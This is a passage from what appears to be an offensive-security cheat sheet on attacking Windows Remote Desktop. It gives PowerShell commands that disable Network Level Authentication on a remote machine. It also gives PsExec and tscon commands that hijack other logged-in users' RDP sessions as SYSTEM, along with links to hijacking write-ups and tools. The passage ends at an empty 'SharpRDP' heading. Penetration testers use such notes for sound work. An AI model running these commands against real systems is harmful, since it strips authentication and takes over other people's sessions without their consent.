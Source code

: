 


## NLA

Disable NLA:

```
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```




## Hijack RDP Sessions

- [http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html](http://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)
- [https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)
- [https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/](https://qtechbabble.wordpress.com/2017/04/07/use-quser-to-view-which-accounts-are-logged-inremoted-in-to-a-computer/)

Run Task manager as LocalSystem to hijack other users' sessions:

```
PS > .\PsExec64.exe -si C:\Windows\System32\Taskmgr.exe -accepteula
```

The same can be achieved with `tscon.exe`:

```
PS > .\PsExec64.exe -s \\localhost cmd
PS > quser.exe
PS > cmd /k tscon.exe <ID> /dest:<CURRENT_SESSIONNAME>
```



### Tools

- [https://github.com/fortra/impacket/blob/master/examples/tstool.py](https://github.com/fortra/impacket/blob/master/examples/tstool.py)
- [https://github.com/netero1010/RDPHijack-BOF](https://github.com/netero1010/RDPHijack-BOF)




## Tools



### SharpRDP
